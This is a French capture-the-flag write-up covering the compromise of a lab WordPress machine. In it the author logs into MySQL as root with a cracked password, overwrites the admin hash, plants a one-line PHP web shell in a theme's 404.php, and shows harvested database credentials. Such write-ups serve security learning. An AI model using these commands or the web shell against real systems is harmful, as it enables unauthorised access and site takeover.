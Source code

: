 Le mot de passe de root se casse facilement, il s'agit de `robert`.

Le serveur MySQL étant accessible, il est possible de se connecter et d'exécuter des requêtes SQL d'insertion ou de mise à jour (que l'on ne peut pas exécuter via l'injection SQL qui est une requête `SELECT`).

J'ai choisi de modifier le hash du compte `admin` présent dans la table `wp_users` par un hash dont je connais le clair. Pour cela j'ai pompé un hash croisé sur le CTF [NerdPress]({% link _posts/2022-02-11-Solution-du-CTF-NerdPress-de-iamv1nc3nt.md %}) qui correspond au mot de passe `jazzy123`.

```console
$ mysql -u root -probert -h 192.168.56.166 wordpress_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 135164
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [wordpress_db]> update wp_users set user_pass='$P$Bx9aLfMHwSzWdZm0fwSNQyB8cEr7Uc/' where user_login='admin';
Query OK, 1 row affected (0,010 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

## Edith de 404

Une fois connecté sur le Wordpress avec ce nouveau mot de passe je cherche un fichier PHP dans les thèmes présents que je peux modifier. Le thème courant sembler être en lecture seule, mais le theme `twentynineteen` non. Je rajoute cette ligne au fichier `404.php` :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Un reverse shell obtenu plus tard je trouve un mot de passe dans la configuration du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
